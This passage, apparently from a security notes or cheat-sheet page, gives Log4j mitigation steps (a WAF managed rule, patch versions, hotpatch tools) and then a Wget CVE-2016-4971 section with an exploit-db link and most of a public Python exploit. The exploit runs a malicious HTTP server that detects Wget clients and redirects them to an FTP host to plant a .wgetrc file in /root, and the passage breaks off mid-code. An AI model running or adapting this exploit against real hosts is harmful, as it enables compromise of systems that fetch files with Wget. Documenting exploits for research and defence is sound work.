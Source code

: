 ```
sudo /etc/init.d/solr restart
```

**AWS WAF**

In Amazon, navigate to Web ACLs > WAF and enable

```
AWS-AWSManagedRulesKnownBadInputsRuleSet
```

**Patching**

The Log4j logging package should be updated and patched to version \[2.15.0rc2] or \[2.16.0]

```
https://logging.apache.org/log4j/2.x/download.html
```

Patching tools

```
https://github.com/corretto/hotpatch-for-apache-log4j2
https://github.com/apache/logging-log4j2
https://github.com/nccgroup/log4j-jndi-be-gone
```

#### Wget

**CVE-2016-4971**

**Exploit link**

```
https://www.exploit-db.com/exploits/40064
```

**Exploit code**

```python
#!/usr/bin/env python

#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971 
#

import SimpleHTTPServer
import SocketServer
import socket;

class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
   def do_GET(self):
       # This takes care of sending .wgetrc

       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
	  print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
```